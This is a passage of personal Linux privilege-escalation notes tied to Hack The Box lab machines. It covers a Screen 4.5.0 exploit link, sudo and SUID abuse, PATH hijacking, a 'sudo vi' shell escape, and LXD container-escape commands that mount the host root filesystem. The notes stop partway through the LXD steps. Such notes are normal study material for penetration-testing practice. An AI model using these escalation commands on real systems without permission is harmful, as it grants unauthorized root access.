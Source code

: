 4. Screen 4.5.0 Local Priv Esc

https://www.exploit-db.com/exploits/41154


5. Use sudo -l to check what commads/ script we can execute as a root user.


6. Redhat/CentOS root through network-scripts

Command execution by simply providing input space command in the script.

https://seclists.org/fulldisclosure/2019/Apr/24

Reference Machine - Networked HTB


7. Vault taken

https://www.vaultproject.io/docs/concepts/tokens.html

Reference Machine - Craft HTB


8. Logstash input as a command

Reference machine - Haystack


9. SystemCTL SUID exploitation


10. PATH Hijacking using pspy

To check which group our user belongs to groups

To find out files and folders owned by group
```
find / -group group_name 2>/dev/null
echo $PATH.
```
Reference Machine - WriteUp HTB

12. Vim
```
sudo /usr/bin/vi /var/www/html/anyfilewhichwecanaccessasaroot -c ‘:!/bin/bash’
```

13. Priv Esc via LXD

https://reboare.github.io/lxd/lxd-escape.html
```
lxc init ubuntu:16.04 blah -c security.privileged=true
lxc config device add blah root disk source=/ path=/mnt/root recursive=true
```
Steps

13.1 Create a alpine build locally.

https://github.com/saghul/lxd-alpine-builder

13.2 Transfer tar.gz file on remote machine.
```
scp yourfile.tar.gz user@x.x.x.x:
```
13.3 Import image in the lxc
```
lxc image import yourfile.tar.gz alpine # if this doesn't work run
lxc image import yourfile.tar.gz --alias alpine
```
13.4 Check if it is imported or not by using
```
lxc image list
```
13.5 Now create a machine
```
lxc init alpine privesc -c security.privileged=true
```